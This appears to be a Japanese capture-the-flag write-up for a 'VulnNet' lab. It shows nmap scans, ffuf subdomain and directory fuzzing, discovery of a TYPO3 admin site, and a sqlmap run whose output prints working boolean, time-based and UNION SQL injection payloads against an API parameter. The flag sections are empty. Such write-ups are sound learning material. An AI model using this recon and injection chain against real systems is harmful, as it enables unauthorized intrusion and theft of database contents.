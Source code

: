 ### Enum
```
nmap -Pn -sVC 10.10.133.73 -p 22,80 
Nmap scan report for vulnnet.thm (10.10.133.73)
Host is up.

PORT   STATE    SERVICE VERSION
22/tcp filtered ssh
80/tcp filtered http
```
```
nmap -Pn -sVC 10.10.133.73 -p 22,80 -vv -T4
Host is up, received user-set (0.39s latency).

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 bb2ee6cc79f47d682c11bc4b631908af (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQRQ5sGPZniwdg1TNW71UdA6dc2k3lpZ68EnacCUgKEqZT7sBvppGUJjSAMY7aZqdZJ0m5N9SQajB9iW3ZEKHM5qtbXOadbWkRKp3VrqtZ8VW1IthLa2+oLObY2r1qep6O2NqrghQ/yVCbJYF5H8BsTtjCVNBeVSzf9zetwUviO6xfqIRO3iM+8S2WpZwKGtrBFvA9RaBsqLBGB1XGUjufKxyRUzOx1J2I94Xhs/bDcaOV5Mw6xhSTxgS3q6xVmL6UU3hIbpiXzYcj2vxuAXXszyZCM4ZkxmQ1fddQawxHfmZRnqxVogoHDsOGgh9tpQsc+S/KTrYQa9oFEVARV70x
|   256 8061bf8caad14d4468154533edeb82a7 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEg9Hw4CIelacGVS0U+uFcwEj183dT+WrY/tvJV4U8/1alrGM/8gIKHEQIsU4yGPtyQ6M8xL9q7ak6ze+YsHd2o=
|   256 878604e9e0c0602aab878e9bc705351c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJJDCCks5eMviLJyDQY/oQ3LLgnDoXvqZS0AxNAJGv9T
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Soon &mdash; Fully Responsive Software Design by VulnNet
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Webサーバ。Fuzzしたけど空振りなので、サブドメインを探す。

```
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://vulnnet.thm -H "HOST:FUZZ.vulnnet.thm" -fs 65
________________________________________________

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://vulnnet.thm
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.vulnnet.thm
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 65
________________________________________________

[Status: 200, Size: 19316, Words: 1236, Lines: 391, Duration: 405ms]
    * FUZZ: blog

[Status: 200, Size: 26701, Words: 11619, Lines: 525, Duration: 415ms]
    * FUZZ: shop

[Status: 200, Size: 18, Words: 4, Lines: 1, Duration: 610ms]
    * FUZZ: api

[Status: 307, Size: 0, Words: 1, Lines: 1, Duration: 5123ms]
    * FUZZ: admin1

:: Progress: [4989/4989] :: Job [1/1] :: 69 req/sec :: Duration: [0:00:49] :: Errors: 0 ::
```

![image](https://user-images.githubusercontent.com/6504854/236607640-bfe5efd8-044a-4373-bf3b-62dd0be28535.png)

![image](https://user-images.githubusercontent.com/6504854/236607654-5b3745ca-e0d5-405e-9157-5efc5e5ecd24.png)

![image](https://user-images.githubusercontent.com/6504854/236607673-c57f2473-4188-4800-a3c4-cded88425095.png)

![image](https://user-images.githubusercontent.com/6504854/236607683-bff21815-5b2e-40c2-829e-6b3996937bda.png)

こんな感じ、問題からadmin1が最優先だろというあたりで。

```
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u http://admin1.vulnnet.thm/FUZZ -fc 307

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://admin1.vulnnet.thm/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response status: 307
________________________________________________

[Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 359ms]
    * FUZZ: en

[Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 346ms]
    * FUZZ: vendor

[Status: 301, Size: 328, Words: 20, Lines: 10, Duration: 352ms]
    * FUZZ: fileadmin

[Status: 301, Size: 328, Words: 20, Lines: 10, Duration: 409ms]
    * FUZZ: typo3temp

```

![image](https://user-images.githubusercontent.com/6504854/236608456-b5108f57-ea21-4493-b17b-1de6d3a1fc50.png)

![image](https://user-images.githubusercontent.com/6504854/236608468-f55e3828-3e63-42e5-aca9-f0c497434498.png)

![image](https://user-images.githubusercontent.com/6504854/236608493-e1d069ea-db66-40ec-b6f9-b3875989d983.png)

![image](https://user-images.githubusercontent.com/6504854/236608515-e0654256-c3b7-4603-ad2e-9cb2bda34e86.png)

なんかのCMSらしい。

![image](https://user-images.githubusercontent.com/6504854/236608679-03abb9be-8dcf-4396-9f85-0c3906137830.png)

デフォルトの設定のままでログイン口がみえる。admin/adminで入れない。古いバージョンだとRCEあるっぽいけど、履歴から割と最近のバージョン10以上っぽい。
めぼしいエクスプロイトなし。どうしたものか。どっかからユーザ探す？。

![image](https://user-images.githubusercontent.com/6504854/236609100-b07925ae-8b0d-4f74-bd90-6d4999326ca8.png)

このパラメータにSQLiがある。ここ探すのが一番時間かかった。

![image](https://user-images.githubusercontent.com/6504854/236610784-c9de7923-30a9-4d4c-a1db-3501d3b52838.png)

![image](https://user-images.githubusercontent.com/6504854/236610823-3d182be4-1d0f-4666-a17d-75f3f39fbec4.png)

```
sqlmap -u http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=4 -p blog --batch --dbs                 
        ___
       __H__                                                                                                              
 ___ ___[)]_____ ___ ___  {1.7.2#stable}                                                                                  
|_ -| . [.]     | .'| . |                                                                                                 
|___|_  [']_|_|_|__,|  _|                                                                                                 
      |_|V...       |_|   https://sqlmap.org                                                                              

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[16:47:03] [INFO] resuming back-end DBMS 'mysql' 
[16:47:03] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: blog (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: blog=5 AND 7604=7604

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: blog=5 AND (SELECT 7299 FROM (SELECT(SLEEP(5)))ituG)

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: blog=-4953 UNION ALL SELECT NULL,NULL,CONCAT(0x7171707671,0x4850476a6f59766d4e696c5849744b53544e506b495773795a667544496444614762415a4f446b68,0x7178767a71)-- -
---
[16:47:04] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 18.04 (bionic)
web application technology: Apache 2.4.29
back-end DBMS: MySQL >= 5.0.12
[16:47:04] [INFO] fetching database names
available databases [3]:
[*] blog
[*] information_schema
[*] vn_admin

[16:47:04] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/api.vulnnet.thm'
```

### Flag(User)

### Flag(Root)


地震はくるわ、風が強すぎるわ、隠れて生きのびていこ。
